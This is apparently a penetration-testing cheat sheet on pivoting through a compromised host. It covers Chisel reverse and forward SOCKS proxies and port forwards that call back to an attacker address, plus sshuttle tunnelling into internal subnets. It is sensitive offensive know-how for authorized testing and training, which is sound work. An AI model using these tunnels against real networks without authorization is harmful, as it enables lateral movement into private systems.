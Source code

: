 # Pivoting Tools

## 1. Chisel

### Reverse SOCKS Proxy

On the Attacking Machine

```bash
./chisel server -p LISTEN_PORT --reverse &
```

On the Compromised Machine

```bash
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

> **Note:**
> Even though the compromised machine connects back to port `1337` (or whichever port you choose), the SOCKS proxy actually opens on `127.0.0.1:1080`. This is the default port for a SOCKS5 proxy.

To change the local proxy port from `1080` to a custom port:

```bash
./chisel client ATTACKING_IP:LISTEN_PORT R:PROXY_PORT:socks &
```

### Forward SOCKS Proxy

On the Compromised Machine

```bash
./chisel server -p LISTEN_PORT --socks5
```

On the Attacking Machine

```bash
./chisel client COMPROMISED_IP:LISTEN_PORT PROXY_PORT:socks
```

### Proxychains Reminder

When using proxychains to route traffic through the SOCKS proxy created by Chisel, edit your `/etc/proxychains.conf` (or `proxychains4.conf`) file as follows:

```ini
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

> Make sure to use `socks5` instead of `socks4`.

### Remote Port Forwarding

On the Attacking Machine

```bash
./chisel server -p LISTEN_PORT --reverse &
```

On the Compromised Machine

```bash
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

> This sets up a tunnel from the **attacker** to a **remote internal resource** via the compromised host.

### Local Port Forwarding

On the Compromised Machine

```bash
./chisel server -p LISTEN_PORT
```

On the Attacking Machine

```bash
./chisel client COMPROMISED_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

> This allows the attacker to access **internal services** from the compromised host locally

Notes

* Always verify which direction the port forwarding should happen.
* Use `&` to run processes in the background where necessary.
* Chisel uses **SOCKS5** by default for proxy setups.
* You can monitor or debug Chisel connections with tools like `netstat`, `lsof`, or `tcpdump`.

---

## 2. SSHuttle

`sshuttle` uses an SSH connection to create a tunneled proxy that acts like a new network interface. It effectively simulates a VPN, allowing us to route our traffic through the proxy **without** using tools like `proxychains`.

### Requirements

The following conditions must be met:

* `sshuttle` must be installed on **your** (attacking) machine.
* The **compromised server** must:
  * Run **Linux**.
  * Be accessible over **SSH**.
  * Have **Python** installed.

### Basic Usage

```bash
sshuttle -r username@address subnet
````

**Example:**

```bash
sshuttle -r user@172.16.0.5 172.16.0.0/24
```

### Auto-Detect Subnets (Optional)

Rather than specifying the subnet manually, you can use the `-N` option:

```bash
sshuttle -r username@address -N
```

> **Note:**
> This attempts to determine the subnets based on the compromised server’s routing table. It may not always work reliably.

### Using an SSH Key

If an SSH key is required for authentication:

```bash
sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET
```

**Example:**

```bash
sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i ~/.ssh/id_rsa" 172.16.0.0/24
```

### Handling Broken Pipe Errors

If you encounter an error like:

```bash
client: Connected.
client_loop: send disconnect: Broken pipe
client: fatal: server died with error code 255
```

You can exclude the SSH server’s IP using the `-x` option:

```bash
sshuttle -r username@address subnet -x address
```

**Example:**

```bash
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```

Notes

* `sshuttle` works by tunneling IP traffic through an SSH connection.
* It simulates a VPN-like experience on-the-fly.
* Unlike `proxychains`, it doesn't require applications to support proxy settings.
* Great for routing entire toolsets or browser traffic through a pivot.

---
